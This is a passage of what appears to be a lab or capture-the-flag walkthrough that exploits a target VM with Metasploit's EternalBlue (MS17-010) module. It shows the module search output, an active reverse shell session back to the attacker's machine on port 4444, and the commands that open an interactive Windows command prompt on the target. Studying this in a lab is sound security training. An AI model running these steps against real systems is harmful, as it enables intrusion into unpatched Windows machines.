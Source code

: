 ```bash
    -l        List all active sessions
    -n   Name or rename a session by ID
    -q        Quiet mode
    -s   Run a script or module on the session given with -i, or all
    -t   Set a response timeout (default: 15)
    -u   Upgrade a shell to a meterpreter session on many platforms
    -v        List all active sessions in verbose mode
    -x        Show extended information in the session table

Many options allow specifying session ranges using commas and dashes.
For example:  sessions -s checkvm -i 1,3-5  or  sessions -k 1-2,5,6

msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

You can interact with any existing session using the sessions -i command followed by the session ID.

**Interacting with sessions**
```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions 

Active sessions
===============

  Id  Name  Type               Information                                                                       Connection
  --  ----  ----               -----------                                                                       ----------
  1         shell x64/windows  Microsoft Windows [Version 6.1.7601] Copyright (c) 2009 Microsoft Corporation...  10.10.186.44:4444 -> 10.10.12.229:49366 (10.10.12.229)

msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions -i 1
[*] Starting interaction with 1...

C:\Windows\system32>
```

Answer the questions below:

### Question 1:
Exploit one of the critical vulnerabilities on the target VM

**Answer:** No answer needed

```bash
msf6 > search MS17-010

Matching Modules
================

   #   Name                                           Disclosure Date  Rank     Check  Description
   -   ----                                           ---------------  ----     -----  -----------
   0   exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1     \_ target: Automatic Target                  .                .        .      .
   2     \_ target: Windows 7                         .                .        .      .
   3     \_ target: Windows Embedded Standard 7       .                .        .      .
   4     \_ target: Windows Server 2008 R2            .                .        .      .
   5     \_ target: Windows 8                         .                .        .      .
   6     \_ target: Windows 8.1                       .                .        .      .
   7     \_ target: Windows Server 2012               .                .        .      .
   8     \_ target: Windows 10 Pro                    .                .        .      .
   9     \_ target: Windows 10 Enterprise Evaluation  .                .        .      .
   10  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
```